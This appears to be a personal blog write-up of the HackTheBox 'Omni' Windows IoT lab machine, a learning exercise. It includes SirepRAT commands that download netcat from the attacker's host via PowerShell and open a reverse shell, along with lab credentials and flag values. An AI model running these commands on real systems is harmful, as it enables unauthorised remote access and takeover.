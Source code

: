 ```yaml
---
title: HackTheBox Omni Write-Up
tags: 
- writeup
- hackthebox
image: /images/omni/info.png
---
```


Remember when I said that Tabby was the shortest box I have solved? Yea.. Redact that. We have a new box that just made it to the top. As the info card says that the OS is unknown. To be honest I didn't notice any differences than a normal windows box. It was just another powershell practice session for me. All being said, it doesn't mean I disliked the box. I like all the boxes because in the end they are just puzzles that vary in difficulty. And did I ever tell you I **love** puzzles? Enough rant... I can't wait to root another box so lets get done with this write-up.

<!--more-->

<img src="/images/omni/info.png" />

Kick off the nmap scan.

```
nmap -T4 -Pn -A 10.10.10.204

Starting Nmap 7.60 ( https://nmap.org ) at 2020-09-14 09:50 IST
Nmap scan report for 10.10.10.204
Host is up (0.28s latency).
Not shown: 998 filtered ports
PORT     STATE SERVICE VERSION
135/tcp  open  msrpc   Microsoft Windows RPC
8080/tcp open  upnp    Microsoft IIS httpd
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Windows Device Portal
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Site doesn't have a title.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

The only interesting port I see is the web server at port 8080. Browsing...

<img src="/images/omni/login.png" />

this is the first and last time I see this page. We see a clue right off the bat "Windows Device Portal". I look it up and fair enough I find it is a web interface for Windows iot devices. I find some documentation about default creds but that didn't work. 
[Reference](https://docs.microsoft.com/en-us/windows/iot-core/manage-your-device/deviceportal)

After some more research I find a tool called SirepRAT made by SafeBreach Labs. [link to the tool](https://github.com/SafeBreach-Labs/SirepRAT).

I took a look at the python script and see that it is just sending/receiving the data using sockets but that was about it. I didn't understand how the tool works due to my limited knowledge about IOTs but that is something I think is an important part of being in this field i.e accepting that I don't know everything and that is alright.

We have unauthenticated RCE already. Today is a good day. So I read the instruction using th "--h" parameter. I see we can download, upload, get system info and run commands. First I tried uploading a netcat binary and tried to run using the launch commmand feature. Nope.

I didn't see any requests on my python server for any file. So I try to use just the launching commands feature to upload the binary and execute it. I know 3 methods to do so. Fisrt is using curl, second is using certutil and third is using powershell's invoke-webrequest command. The power shell method worked. 

```
python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --cmd "C:\Windows\System32\cmd.exe" --args "/C Powershell Invoke-WebRequest http://YourIP:port/nc64.exe -OutFile C:\Windows\Temp\nc64.exe" --vv

```

We see a request on the python server. Next is to execute the netcat and get a reverse shell. After playing around a bit I get it to work. Remember to start a netcat listener in another tab.

```
python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --cmd "C:\Windows\System32\cmd.exe" --args "/C C:\Windows\Temp\nc64.exe YourIP 1234 -e powershell.exe" --vv
```

And we have a shell. Doing the starting enumeration we see that "whoami" is not available, so we use `echo %username%` instead.

```
C:\>echo %username%
echo %username%
omni$

C:\>net user
net user

User accounts for \\

-------------------------------------------------------------------------------
Administrator            app                      DefaultAccount           
DevToolsUser             Guest                    sshd                     
WDAGUtilityAccount

PS C:\> $Env:path
$Env:path
C:\windows\system32;C:\windows;C:\windows\System32\OpenSSH\;C:\windows\System32\Wbem;C:\windows\System32\WindowsPowerShell\v1.0\

```

Ohh...! Do you see it? OpenSSH is installed. But I didn't see anything in the nmap scan. So as it says I browse to `C:\windows\System32\OpenSSH\`
and see a bunch of binaries. I try to run the "sshd.exe" binary which is used to start the ssh server and it just made the shell unresponsive **BUT** now when I do something "netstat -aon" or try to connect to a random user using ssh from my machine I can see that it doesn't say connection refused. If the ssh server was not active then it would have given me that error.

I need to find either the keys or the passwords for the users. I did find some keys but they didn't work. Now comes the most annoying part of this box which is opening each and every directory to information. I spent most of my time solving the box here.

I found that I can already read the user and root flags which are inside `C:\Data\Users\app` and `\root` respectively. It looked like they encrypted though. I do some research again to find [this awesome article](https://mcpmag.com/articles/2017/07/20/save-and-read-sensitive-data-with-powershell.aspx).

The PSCredential class is used to create objects by taking username and password from the user. After that this object can be passed to other processes that require credentials. In our case, this class was used to make objects with flag as password and stored inside user.txt file. When I follow the instruction given in the above mentioned article I face some crypto errors which are probably because I am not privileged enough to perform those actions.  

Fast-Forward 3 hours I finally find a hidden file inside `C:\program files\windowspowershell\modules\packagemanagement` named "r.bat".
I print out its contents and we have hit the jackpot!

```
PS C:\program files\windowspowershell\modules\packagemanagement> cat r.bat
cat r.bat
@echo off

:LOOP

for /F "skip=6" %%i in ('net localgroup "administrators"') do net localgroup "administrators" %%i /delete

net user app mesh5143
net user administrator _1nt3rn37ofTh1nGz

ping -n 3 127.0.0.1

cls

GOTO :LOOP

:EXIT
```

Now we have creds for the user "app" and "administrator". Next I try to ssh into these accounts.

```
ssh app@10.10.10.204
app@10.10.10.204's password: 

Microsoft Windows [Version 10.0.17763.107]
Copyright (c) Microsoft Corporation. All rights reserved.
 
app@omni C:\Data\Users\app>powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Data\Users\app>ls


    Directory: C:\Data\Users\app


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---         7/4/2020   7:28 PM                3D Objects
d-r---         7/4/2020   7:28 PM                Documents
d-r---         7/4/2020   7:28 PM                Downloads
d-----         7/4/2020   7:28 PM                Favorites
d-r---         7/4/2020   7:28 PM                Music
d-r---         7/4/2020   7:28 PM                Pictures
d-r---         7/4/2020   7:28 PM                Videos
-ar---         7/4/2020   8:20 PM            344 hardening.txt
-ar---         7/4/2020   8:14 PM           1858 iot-admin.xml
-ar---         7/4/2020   9:53 PM           1958 user.txt
```

It worked! Next I again try to follow the instruction given in [the article](https://mcpmag.com/articles/2017/07/20/save-and-read-sensitive-data-with-powershell.aspx).

```
PS C:\Data\Users\app> $credential = Import-CliXml -Path  ./user.txt
PS C:\Data\Users\app> $credential.GetNetworkCredential().Password
7cfd50f6bc34db3204898f1505ad9d70
```

And we the user flag. Same thing for the administrator.

```
ssh administrator@10.10.10.204
administrator@10.10.10.204's password: 

Microsoft Windows [Version 10.0.17763.107]
Copyright (c) Microsoft Corporation. All rights reserved.

administrator@omni C:\Data\Users\administrator>powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved. 

PS C:\Data\Users\administrator> ls 
 

    Directory: C:\Data\Users\administrator
 
 
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---         7/3/2020  11:23 PM                3D Objects
d-r---         7/3/2020  11:23 PM                Documents
d-r---         7/3/2020  11:23 PM                Downloads
d-----         7/3/2020  11:23 PM                Favorites
d-r---         7/3/2020  11:23 PM                Music
d-r---         7/3/2020  11:23 PM                Pictures
d-r---         7/3/2020  11:23 PM                Videos
-ar---         7/4/2020   9:48 PM           1958 root.txt

PS C:\Data\Users\administrator> $credential = Import-CliXml -Path  ./root.txt
PS C:\Data\Users\administrator> $credential.GetNetworkCredential().Password
5dbdce5569e2c4708617c0ce6e9bf11d
```

This box was a big confidence booster for me. I used to be afraid of windows machines but I am getting better. With this I have run out of all the easy boxes and next stop is medium boxes.